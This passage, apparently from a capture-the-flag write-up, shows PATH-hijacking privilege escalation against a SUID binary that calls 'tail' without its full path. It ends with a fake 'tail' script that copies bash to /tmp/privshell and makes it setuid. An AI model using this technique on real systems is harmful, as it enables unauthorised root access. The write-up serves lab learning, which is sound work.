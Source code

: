 > I'll look through **strings** all readable ASCII or UTF-8 strings that are in this executable file to understand how it works:

```bash

strings /home/joe/live_log

```

> The output is large, but I was interested in the presence of the **tail** utility which is used to output the last lines of a file.

![strings_tail](./screenshots/strings_tail.png)

> In this case, the command **tail -f /var/log/nginx/access.log** will output the last lines from the **access** log when logging actions.

> The problem is that the command for this executable file is written **without specifying the absolute path** - that is not **/usr/bin/tail**.
> this is the right vector for **privilege escalation**

```bash

barry@mustacchio:~$ which tail

/usr/bin/tail

```
> This means that the program when executed will search for this utility through the environment variable **$PATH** of the current user session and not directly.

```bash

barry@mustacchio:~$ echo $PATH

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

```

> It's very important because the **$PATH** variable is in the user session and is not a system setting, so the user almost always has rights to edit such variables.

> I create a file **tail** in the home directory **/home/barry** with a copy of **/bin/bash** and make it executable:

```bash

#!/bin/bash

/bin/bash -c 'cp /bin/bash /tmp/privshell; chmod +s /tmp/privshell'

```
